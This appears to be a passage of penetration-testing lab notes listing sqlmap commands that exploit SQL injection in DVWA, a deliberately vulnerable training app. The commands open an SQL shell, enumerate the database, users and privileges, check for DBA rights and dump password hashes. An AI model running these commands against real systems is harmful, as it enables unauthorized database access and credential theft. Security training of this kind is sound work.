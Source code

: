 ```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --sql-shell

sql-shell> SELECT @@VERSION()

sql-shell> SELECT table_name FROM information_schema.tables

sql-shell> SELECT column_name FROM information_schema.columns

sql-shell> SELECT USER()

sql-shell> SELECT DATABASE()

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```

- Banner grab DBMS backend.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -b
```

- Fingerprint the DBMS backend extensively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -f --dbms=mysql --technique=U
```

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --current-user --is-dba 
```

- Enumerate user database accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --users
```

- Dump user database passwords

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --passwords
```

- Enumerate privileges and roles.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --roles -U CU
```
